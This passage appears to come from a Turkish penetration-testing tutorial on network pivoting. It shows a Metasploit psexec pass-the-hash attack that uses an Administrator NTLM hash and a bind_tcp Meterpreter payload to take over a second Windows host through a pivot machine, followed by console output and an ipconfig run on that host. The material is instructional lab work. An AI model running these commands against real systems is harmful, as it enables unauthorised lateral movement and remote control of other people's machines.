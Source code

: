 ```bash
SMBPass **=&gt;** 81cbcea8a9af93bbaad3b435b51404ee:561cbdae13ed5abd30aa94ddeb3cf52d

msf exploit**(**psexec**)** **&gt;** set PAYLOAD windows/meterpreter/bind_tcp
PAYLOAD **=&gt;** windows/meterpreter/bind_tcp

msf exploit**(**psexec**)** **&gt;** exploit

**[*********]** Connecting to the server...
**[*********]** Started bind handler
**[*********]** Authenticating to 10.1.13.2:445|WORKGROUP as user 'Administrator'...
**[*********]** Uploading payload...
**[*********]** Created \qNuIKByV.exe...
**[*********]** Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:10.1.13.2[\svcctl] ...
**[*********]** Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:10.1.13.2[\svcctl] ...
**[*********]** Obtaining a service manager handle...
**[*********]** Creating a new service **(**UOtrbJMd - "MNYR"**)**...
**[*********]** Closing service handle...
**[*********]** Opening service...
**[*********]** Starting the service...
**[*********]** Removing the service...
**[*********]** Closing service handle...
**[*********]** Deleting \qNuIKByV.exe...
**[*********]** Sending stage **(**749056 bytes**)**
**[*********]** Meterpreter session 2 opened **(**192.168.1.101-192.168.1.201:0 -&gt; 10.1.13.2:4444**)** at Mon Dec 06 08:56:42 -0700 2010

meterpreter **&gt;**
```



Gördüğünüz gibi 2. bilgisayara bağlantı sağladık. Bu bağlantıyı yukarıda `[*] Meterpreter session 2 opened (192.168.1.101-192.168.1.201:0 -&gt; 10.1.13.2:4444)` satırından da görebileceğiniz gibi `192.168.1.101-192.168.1.201:0 -&gt; 10.1.13.2:4444` rotasını takip ederek yaptık.



192.168.1.101: Kendi bilgisayarımız



192.168.1.201: Pivot olarak kullanılan bilgisayar



10.1.13.2: Erişim sağlanan 2. bilgisayar.



İkinci bilgisayarın `ipconfig` ayarlarına bakalım.


```bash
meterpreter **&gt;** ipconfig

Citrix XenServer PV Ethernet Adapter
Hardware MAC: 22:73:ff:12:11:4b
IP Address  : 10.1.13.2
Netmask     : 255.255.255.0



MS TCP Loopback interface
Hardware MAC: 00:00:00:00:00:00
IP Address  : 127.0.0.1
Netmask     : 255.0.0.0


meterpreter **&gt;**
```

